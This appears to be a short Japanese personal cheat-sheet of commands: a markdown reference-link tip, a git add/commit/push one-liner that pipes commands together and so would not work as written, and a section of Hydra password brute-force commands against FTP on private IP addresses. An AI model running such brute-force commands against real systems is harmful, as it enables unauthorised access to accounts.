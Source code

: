 # 技術・コマンドとりあえず張る

## markdown

### URLリンク整理
以下のようにすれば読みやすくなる
```
[リンク先][1]
[1]:http://～～～
```

## git
### add commit push
```
git add * | git commit . -m "update" | git push origin main
```

[return](../README.md)

## Hydra
パスワードクラック
```
hydra -L user.lst -P pass.lst -t 8 10.0.0.5 ftp
hydra -l userlist.txt -P passwordlist.txt 192.168.0.107 ftp
hydra -l ftpuser -P passwordlist.txt 192.168.0.107 ftp
```
